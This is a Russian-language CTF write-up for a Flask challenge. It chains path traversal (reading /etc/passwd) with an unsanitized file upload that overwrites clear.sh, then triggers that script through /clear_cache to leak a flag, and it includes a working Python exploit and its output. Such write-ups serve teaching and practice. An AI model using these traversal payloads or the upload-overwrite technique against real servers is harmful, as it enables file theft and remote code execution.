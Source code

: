 # Хитрый краб чайке не товарищ

## Исследование

После деплоя таска мы получаем почти чистую страничку. На ней указан только странный файл `flag.drawio`. Это формат файла онлайн конструктора диаграмм draw.io и внутри только зачётный мем с жабой.

Помимо этого вы могли заметить, что в URL находится замечательный небезопасный формат отображения файлов:
```
http://127.0.0.1:7509/load?file=./
```

Что позволяет нам предположить, что страничка рендерит содержимое не какого-то абстрактого хранилища, а файлы прямо с файловой системы.

Подтвердим эту теорию, попытавшись открыть файл `/etc/passwd`: `http://127.0.0.1:7509/load?file=../../../../etc/passwd`. При выполнении этого запроса в ваше распоряжение поступит passwd, а это означает, что у нас тут LFR (Local File Read) через path traversal.

Пробуем читать родительскую директорию через `http://127.0.0.1:7509/load?file=..` и видим следующую структуру:
```
./clear.sh
./uploads/
./static/
./templates/
./main.py
```

В `main.py` лежит код сервера и, после его анализа, можно подметить важные детали:

1) Флаг нигде не выводится, но он хранится в переменной окружения `FLAG`:
    ```
    flag = r'CTF{EXAMPLE}' if 'FLAG' not in os.environ else os.environ['FLAG'].replace('"','')
    ```
2) У нас есть ручка `http://127.0.0.1:7509/upload`, которая позволяет загружать файлы на сервер. Стоит заметить, что она это делает небезопасно - нет сантизации имени файла (для Flask - это функция `secure_filename()`). Это позволяет нам загружать файлы на систему в любое место, т.е уязвимость Local File Inclusion.
3) У нас ручка `http://127.0.0.1:7509/clear_cache`, которая выполняет скрипт `clear.sh`.

## Эксплуатация

У нас каре - уязвимости path traversal, LFR, LFI и RCE. Путь эксплуатации следующий:

1) Загружаем файл, который подменит `clear.sh`. Т.к. имя скрипта захардкожено - мы должны оставить его как есть. Но никакой проверки целостности у нас нет, поэтому внутрь скрипта мы можем положить код, который делает что угодно. Поэтому запомним, что имя загружаемого файла должно быть `../clear.sh`.
2) В скрипт нужно положить код, который куда-то выведет флаг из переменной окружения. Тут делаем просто:
   ```
    #!/bin/sh
    printenv FLAG
   ```
3) Теперь этот скрипт необходимо доставить - для этого надо сформировать POST-запрос на `/upload` с правильным именем файлы `../clear.sh` и содержимым, выводящим флаг в удобное для нас место. Сразу в скрипте дернем `/clear_cache` чтобы получить флаг. Вот такой код это делает:
   ```
    #!/usr/bin/env python

    import requests
    import sys

    if len(sys.argv) != 2:
        print("Use: {} <address>".format(sys.argv[0]))
        sys.exit()
        
    server = sys.argv[1].strip().replace("http://", "").split("/")[0]

    filename = "../clear.sh"
    filecontent = \
    '''
    #!/bin/sh
    printenv FLAG
    '''

    req = requests.post("http://{}/upload".format(server), files={ 'file': (filename, filecontent)} )
    print("[!] POST = ", req.status_code)
    flag = requests.get("http://{}/clear_cache".format(server))
    print(flag.text)

   ```

   ```
    -> $ python3 sploit.py 127.0.0.1:7509
    [!] POST =  200
    "crab{lfi_lfr_path_traversal_the_classic_trio_*}"
   ```